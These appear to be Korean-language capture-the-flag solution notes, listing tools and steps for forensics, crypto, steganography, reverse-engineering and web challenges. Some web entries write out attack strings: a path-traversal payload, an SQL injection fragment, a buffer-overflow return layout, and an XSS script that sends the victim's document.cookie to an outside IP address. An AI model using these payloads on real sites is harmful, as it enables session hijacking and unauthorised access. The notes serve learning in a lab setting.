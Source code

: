 ## reverse engineering
## forensic
## web
## network
## information hiding
## crypto

### 솔로몬의 저울
- fastcoll : 해쉬 충돌을 통해 서로 다른 2개의 파일의 md5 해쉬값을 똑같이 만들 수 있다.

서로 다른 2개의 파일에서 같은 해쉬 값을 얻을수 있다.

### 라이언 일병 구하기 2
- information hiding
- Hex to JPG
- base64 Decode
- MZ는 실행파일
- 기드라로
- virustotal.com : 
- base64 decoding

### 화면 조정시간
- file view lite
- stegsolve
- 8초쯤 

### 비둘기 게임 시즌 2-1
- 소켓통신
- 40자리, 알파벳 대문자, 숫자
- python -_-;;
- 걍 던져라

### Capture the Flag!!!
- Hex Editor
- Fake Lock
- 암호화된 파일은 Hex 21
- 1993-constant.tistory.com

### 게시글 댓글 찾기 -1
- querystring
- masterseq, boardSeq = 5에서 찾음
- masterseq = 7 에서 찾을수 있었음

### 라이언 일병 구하기
- Crypto
- Enigma 해독
- Enigma 해독 알고리즘

### Tardis
- forensics
- AccessData FTK Imager
- Hex Editor
- Base64 encoding, Decoding
- Tardis Connector_1, magic number 4D 5A
- hex editor로 2개 파일 연결
- Ghidra exe파일 디컴파일
- 16진수로 저장된 비밀번호를 ASCII로 변환한걸 확인
- 리틀 인디안

### 나르코스
- information hiding
- ZIP Magic Number 50 5b 03 04 복사
- 찍은 날짜 
- 스트링이 QR Code
- https://hahamas10.github.io/binary-to-qrcode
- Barcapture

### 집무실 청소 -1
- 파일 카빙, hex editor
- 파일명이 user7.jpg
- suspiciousfile.txt
- 49 46 매직 넘버
- ZIP으로 변경

### 퍼즐 게임 level 1
- AES 128, ECB Decryption
- 분기처리를 보면 힌트
- 암호화된 텍스트와 암호화 방식을 확인할 수 있다.
- puzzle1 , key

### Wallpaper Downloader
- File Traversal
- preg_match bypass
- parameter filter
- response header php
- transaction.php 파일 다운로드
- 파라미터 필터 로직, i플래그가 없으면 대소문자 구분한다
- wallPaper.jpg 같이 p 한 단어만 대문자로 만들어도
- ../../../../../SDS/goooooooodluck_DevHack/flag

### 패스워드 찾기
- 로그인 찾기
- 모든 게시물 조회 후 소스 보기를 통해 로그인 접속 정보 확인
- 소스보기로 주석이 써있었다
- 암호화된 패스워드 리스트
- Content 길이가 MD5
- MD5 rainbow table MD5 decrypt
- SQL Injection 시도 로그인 # and 1=1 and
- md5decrypt.net

### 관리자의 쿠키를 훔쳐라
- 서버로 가기전 lt, gt 형태로 치환되는것을 확인
- 자바스크립트로 치환하는 것을 확인
- burp suite
- 쿠키를 획득할 수 있는 스크립트를 URI_Encoding
- <script>document.location='http://182.195.92.204:8080/~+document.cookie </script>


### 관리자의 쿠키를 또!! 훔쳐라
- Request에서는 입력한 값 그대로인 것을 확인
- <<script>>~~</script>

### The Water world
- PDF파일 포멧을 보면 <Type/ExtGState> 0.1096 -> 0.0196
- Key is 'a_whole_new_world'

### Catch me if you can
- DNS_covert_channel
- FTP message.xlsx
- UDP, 작은 거

### Have I been pwned?
- Reverse Engineering
- buffer overflow
- Buf[4] AAAA
- ESP    BBBB
- EBP    CCCC + GccDummy[4]
- RET    Attack ADdr
- /x06/x15/x40

### Secret Agent
- 2021년

